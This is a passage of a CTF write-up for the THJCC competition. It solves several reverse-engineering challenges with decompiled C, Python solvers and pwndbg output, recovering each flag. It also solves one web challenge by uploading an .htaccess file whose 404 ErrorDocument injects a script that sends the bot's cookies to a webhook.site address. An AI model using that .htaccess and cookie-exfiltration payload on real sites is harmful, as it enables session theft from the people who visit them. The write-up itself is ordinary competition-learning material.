  return v11 - __readfsqword(0x28u);
}
```
tl;dr xor s with index and every 4th byte in unk_2060
```py
s='THJCCISSOGOODIMNOTTHEFLAG!!!'
key=[0, 1, 2, 3, 4, 0x37, 0x1d, 0x64, 0x30, 0x11, 0x0c, 0x1b, 0x2d, 0x2a, 0x15, 0x18, 0, 0x71, 0x8, 0x3f, 0x0e, 4, 0x6b, 0x63, 0x17, 0x67, 0x49, 0x5f, 0x7c, 0x19, 0x65, 0x6b, 0x3a, 0x37, 0x1a, 0x40, 0x1e, 0x2e, 0x0d, 0x37, 0x58, 0x2c, 0x52, 0x55, 0x3c, 0x12, 0x4a, 0x29, 0x42, 0x25, 0x4e, 0x1e, 0x2c, 0x40, 0x5e, 0x5b, 0x29, 0x5c, 0x5d, 0x46, 0x42, 0x5a, 0x50, 0x4d,0x2e, 0x27, 0x70, 0]
ans=''

for i in range(67):
    ans += chr(ord(s[i % len(s)]) ^ i ^ key[i])
print(ans) # THJCC{H0w_I_enVY_4Nd_W15H_re4L17Y_k0uLd_4L50_k0N7R0l_TIME-->=.=!!!}
```

## Python Hunter 🐍
[decompile](https://pylingual.io/)
```py
import sys as s

def qwe(abc, xyz):
    r = []
    l = len(xyz)
    for i in range(len(abc)):
        t = chr(abc[i] ^ ord(xyz[i % l]))
        r.append(t)
    return ''.join(r)
d = [48, 39, 37, 49, 28, 16, 82, 17, 87, 13, 92, 71, 104, 52, 21, 0, 83, 7, 95, 28, 55, 30, 11, 78, 87, 29, 18]
k = 'door_key'
m = 'not_a_key'

def asd(p):
    u = 42
    v = qwe(d, k)
    w = qwe(d, p)
    if w == v:
        print(f'Correct! {v}')
    else:
        print('Wrong!')

def dummy():
    return len(d) * 2 - 1

if __name__ == '__main__':
    if len(s.argv) > 1:
        asd(s.argv[1])
    else:
        print('Please provide a key as an argument.')
    dummy()
```
then just run `qwe(d, k)` -> **`THJCC{7h3b357_py7h0nhun73r}`**

## Flag Checker
lets disassemble:
```c {hl_lines=4}
  printf("flag >");
  __isoc99_scanf("%255s", s);
  for ( i = 0; i < strlen(s); ++i )
    s[i] = ((s[i] << (i & 7)) | (s[i] >> (-(char)i & 7))) ^ 0xF;
  if ( (unsigned int)sub_11C9(s) )
    puts("Correct!");
  else
    puts("Wrong!");
```
lazy so i asked AI to simulate what that line does
```
'0': 00110000 -> 00110000
'0': 00110000 -> 01100000
'0': 00110000 -> 11000000
'0': 00110000 -> 10000001
'0': 00110000 -> 00000011
...
```
looks like its just shifting left by i%8 bits then xor 0xF\
lets check out sub_11C9:
```c
__int64 __fastcall sub_11C9(__int64 a1)
{
  signed int i; // [rsp+14h] [rbp-4h]

  for ( i = 0; (unsigned int)i <= 0x20; i += 3 )
  {
    if ( *(unsigned __int8 *)(i + a1) + *(unsigned __int8 *)(i + 1LL + a1) != dword_4020[i] )
      return 0LL;
    if ( *(unsigned __int8 *)(i + 1LL + a1) + *(unsigned __int8 *)(i + 2LL + a1) != dword_4020[i + 1] )
      return 0LL;
    if ( *(unsigned __int8 *)(i + a1) + *(unsigned __int8 *)(i + 2LL + a1) != dword_4020[i + 2] )
      return 0LL;
  }
  return 1LL;
}
```
it checks for the following:

$$
\begin{aligned}
s[i] + s[i+1] &= \texttt{dword\_4020}[i] \\
s[i+1] + s[i+2] &= \texttt{dword\_4020}[i+1] \\
s[i] + s[i+2] &= \texttt{dword\_4020}[i+2]
\end{aligned}
$$

we can recover s[i..i+2]!

$$
\text{let } m = \frac{\sum_{k=0}^{2} \texttt{dword\_4020}[i+k]}{2} = s[i] + s[i+1] + s[i+2]
$$
$$
\begin{aligned}
s[i] &= m - \texttt{dword\_4020}[i+1] \\
s[i+1] &= m - \texttt{dword\_4020}[i+2] \\
s[i+2] &= m - \texttt{dword\_4020}[i]
\end{aligned}
$$
```py
dword_4020 = [0xFA, 0xC5, 0x81, 0x50, 0x9B, 0x75, 0x72, 0x6D, 0xA5, 0xB5, 0x100, 0xD1, 0x171, 0x1C1, 0x160, 0x13B, 0x163, 0x1A2, 0xF7, 0x167, 0x184, 0x155, 0x174, 0x121, 0xD1, 0x8D, 0x80, 0x181, 0x174, 0x1DD, 0x50, 0x0, 0x50]

enc = []
for i in range(0, len(dword_4020), 3):
    m = (dword_4020[i] + dword_4020[i+1] + dword_4020[i+2]) // 2
    
    a = m - dword_4020[i+1]
    b = m - dword_4020[i+2]
    c = m - dword_4020[i]
    enc.extend([a, b, c])

flag = ''
for i in range(len(enc)):
    enc[i] ^= 0xF
    plain = ((enc[i] >> i%8) | (enc[i] << (-i)%8) & 0xFF)
    flag += chr(plain)
print(flag) # THJCC{i$_&_0x7_equaL_to_m0D_8?}
```

## Noo dle
```c
unsigned __int64 __fastcall encrypt(__int64 a1, __int64 a2, int a3)
{
  int i; // [rsp+28h] [rbp-818h]
  __int64 v5; // [rsp+2Ch] [rbp-814h] BYREF
  int v6; // [rsp+34h] [rbp-80Ch]
  __int64 v7; // [rsp+38h] [rbp-808h]
  _BYTE v8[2032]; // [rsp+40h] [rbp-800h] BYREF
  unsigned __int64 v9; // [rsp+838h] [rbp-8h]

  v9 = __readfsqword(0x28u);
  v6 = 0;
  v7 = 0LL;
  memset(v8, 0, sizeof(v8));
  v5 = (unsigned int)(8 * a3);
  expand((char *)&v5 + 4, a1, v5);
  for ( i = 0; i < (int)v5; i += 8 )
  {
    swap((char *)&v5 + i + 4, (char *)&v5 + i + 11);
    swap((char *)&v5 + i + 5, (char *)&v5 + i + 8);
    swap((char *)&v5 + i + 6, (char *)&v5 + i + 9);
    swap((char *)&v5 + i + 7, (char *)&v5 + i + 10);
  }
  compress(a2, (char *)&v5 + 4, (unsigned int)v5);
  return v9 - __readfsqword(0x28u);
}
```
lets see what expand does
```c
__int64 __fastcall expand(__int64 a1, __int64 a2, signed int a3)
{
  __int64 result; // rax
  signed int i; // [rsp+20h] [rbp-4h]

  for ( i = 0; ; ++i )
  {
    result = (unsigned int)i;
    if ( i >= a3 )
      break;
    *(_BYTE *)(i + a1) = (*(char *)(i / 8 + a2) >> (7 - i % 8)) & 1;
  }
  return result;
}
```
yea this just expands its bits into an array, and we start from index 4\
which means the four swaps transforms the bits like following:
```
[0,1,2,3,4,5,6,7] -> [7,4,5,6,1,2,3,0]
```
then solve:
```py
from binascii import unhexlify

b = unhexlify("2a48589898decafcaefa98087cfa58ae9e2afa1c1aaa2e96fa38061a9ca8fa182ebeee")
bits = [(byte >> (7 - i)) & 1 for byte in b for i in range(8)]

def swap(i, j):
    bits[i], bits[j] = bits[j], bits[i]

for i in range(0, len(bits), 8):
    swap(i, i+7)
    swap(i+1, i+4)
    swap(i+2, i+5)
    swap(i+3, i+6)

decrypted_bin = ''.join(str(x) for x in bits)
print(''.join(chr(int(decrypted_bin[i:i+8], 2)) for i in range(0, len(bits), 8)))
# THJCC{You_C@n_JusT_bRUt3_F0RcE_Btw}
```

## Empty
> The description is empty

**NOTE: i have no idea what im doing here so bear with me**\
upon running we'll be asked for the password, and throwing into IDA we see no sign of the checker either. name checks out\
this seems to be a self-decrypting program, so i threw it into pwndbg and spammed si, ni to try and track the code\
eventually i created a breakpoint at `_dl_start_user+88`, which seems to be right before decrypting

lets check whats beyond 0x5555555551a0:
```c
pwndbg> tele 0x5555555551a0 0x100
00:0000│ r12 0x5555555551a0 ◂— lea rsi, [rip - 0x147]
01:0008│     0x5555555551a8 ◂— mov edi, esi
02:0010│     0x5555555551b0 ◂— dec dword ptr [rax - 0x39]
03:0018│     0x5555555551b8 ◂— mov rdx, 7
04:0020│     0x5555555551c0 ◂— mov eax, 0xa
05:0028│     0x5555555551c8 ◂— lea rsi, [rip - 0x16f]
06:0030│     0x5555555551d0 ◂— mov ecx, 0x13e
07:0038│     0x5555555551d8 ◂— cmp eax, 0x2e68 /* '=h.' */
08:0040│     0x5555555551e0 ◂— 0xe2c7ff48c6ff4806
09:0048│     0x5555555551e8 ◂— hlt
0a:0050│     0x5555555551f0 ◂— sar byte ptr [rax + rax], 0
0b:0058│     0x5555555551f8 ◂— syscall
0c:0060│     0x555555555200 ◂— add byte ptr [rax], al
```
uhh yeah. whatever that is\
i thought `0x5555555551e8` looked interesting so i tried creating a breakpoint there. got sigsegv. whoops\
try one more. `0x5555555551e9`. oh hey whats this

jackpot\
extracting byte data by `x/500bx 0x555555555060` and ask chatgpt to disassemble\
it concluded the password data was xor'd by 0xAB, and that password is at `0x555555558000`
```c
pwndbg> x/16bx 0x555555558000
0x555555558000: 0xea    0xc0    0xc2    0xd1    0xde    0xc0    0xc2    0xe0
0x555555558008: 0xca    0xc5    0xc5    0xca    0x9a    0x9b    0x9e    0x9b
```
applying xor 0xAB we get `AkizukiKanna1050`
```
password > AkizukiKanna1050
Correct!
Here is your flag: THJCC{whY_1s_mY_m@1n_funC710n_eMptY}
```

## Demon Summoning
we're given Ancient_Parchment and chal.exe\
throw chal.exe into IDA
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char v4; // [esp+3h] [ebp-55h]
  char Buffer[80]; // [esp+4h] [ebp-54h] BYREF

  Buffer[0] = byte_41CAA0;
  memset(&Buffer[1], 0, 0x4Fu);
  sub_401280(aDemonHumanAreY);
  v4 = j___fgetchar();
  j___fgetchar();
  if ( v4 == 121 )
  {
    if ( sub_4010E0(Buffer) )
    {
      sub_401280(aDemonHumanYouA);
    }
    else
    {
      sub_401000(Buffer);
      sub_401280(aSummoningSucce);
    }
    j___fgetchar();
  }
  return 0;
}
```
sub_4010E0 looks like a checker:
```c
int __cdecl sub_4010E0(LPVOID lpBuffer)
{
  HANDLE v2; // [esp+0h] [ebp-94h]
  HANDLE hFile; // [esp+4h] [ebp-90h]
  _OFSTRUCT ReOpenBuff; // [esp+8h] [ebp-8Ch] BYREF

  hFile = (HANDLE)OpenFile(aAbyssalcircleM, &ReOpenBuff, 0);
  v2 = (HANDLE)OpenFile(aAbyssalcircleA, &ReOpenBuff, 0);
  if ( hFile == (HANDLE)-1 )
    return 1;
  if ( v2 == (HANDLE)-1 )
    return 1;
  ReadFile(hFile, lpBuffer, 0x50u, 0, 0);
  ReadFile(v2, &byte_41D4E0, 0x4C934u, 0, 0);
  return strcmp((const char *)lpBuffer, Str2);
}
```
seems to only check if hFile and v2 exists and that v2's content == Str2\
lets check out what they are:
```
.data:0041C040 aAbyssalcircleM db 'AbyssalCircle/Melon_Bun',0
.data:0041C040                                         ; DATA XREF: sub_4010E0+1C↑o
.data:0041C058 ; CHAR aAbyssalcircleA[]
.data:0041C058 aAbyssalcircleA db 'AbyssalCircle/Ancient_Parchment',0
.data:0041C058                                         ; DATA XREF: sub_4010E0+36↑o
.data:0041C078 ; char Str2[]
.data:0041C078 Str2            db 'Satania',27h,'s favorite',0 (27h is ')
```
so we just need to create the directory & these files, where Melon_Bun holds the string "Satania's favorite" then run the .exe\
and demon.png appears!

flag: **`THJCC{but_you_summoned_a_zannen_demon}`**

# Insane
## iCloud☁️
we need to upload a file that can steal the bot's flag cookie\
our focus is at apache2.conf, which ill show the only relevant parts:
```apacheconf
IncludeOptional mods-enabled/*.load
IncludeOptional mods-enabled/*.conf

<DirectoryMatch ^/var/www/html/uploads/.+>
    Options +Indexes
    AllowOverride FileInfo
    DirectoryIndex disabled

    <FilesMatch "^.*\.ph.*$">
        SetHandler none
        ForceType text/html
        Header set Content-Type "text/html"
    </FilesMatch>
</DirectoryMatch>

AccessFileName .htaccess
```
some observations:
- `AllowOverride FileInfo` and `AccessFileName .htaccess` allows .htaccess for us, which is a giveaway on what to use
- `<FilesMatch "^.*\.ph.*$">` bounces any file containing `.ph` in it. this means no .php, .pht etc. but we wont need that

also, the bot service has a restriction too:
```js
if (!url.match(new RegExp(`^${SITE_URL}uploads/[^/]+/?$`))) {
    console.log(`[-] Invalid URL: ${url}`);
    return;
}
```
the regex forces the URL to end in a folder, so things like `uploads/abcd-1234/` will work, but `uploads/abcd-1234/xss.html` wouldnt\
but this sends the bot into the directory index, so we have to redirect the bot using .htaccess somehow

fortunately we can use **RewriteEngine** (enabled by `IncludeOptional mods-enabled/*.conf`) to redirect\
lets redirect the bot to a nonexistent page, and return xss payload in the 404 response!
```apacheconf
RewriteEngine On
RewriteRule ^$ cba.html [L]
ErrorDocument 404 "<script>new Image().src=\"https://webhook.site/grab-ur-own-webhook-brah?c=\"+document.cookie</script>"
```


# Feedback
never do the feedback challs the conventional way!\
ctrl+u, scroll to form data and you'll notice something interesting:
```
["I have a gift for you: aHR0cHM6Ly9jdGYuc2NpbnQub3JnL2ZpbGVzLzA2ZThlZjljZThjZjI3Y2E1MjA0MzJlM2QxMGY5NDE3L2ZsYWcucG5n",1,0,1,0]
```
b64 -> https://ctf.scint.org/files/06e8ef9ce8cf27ca520432e3d10f9417/flag.png

flag: **`THJCC{thanks_for_playing}`**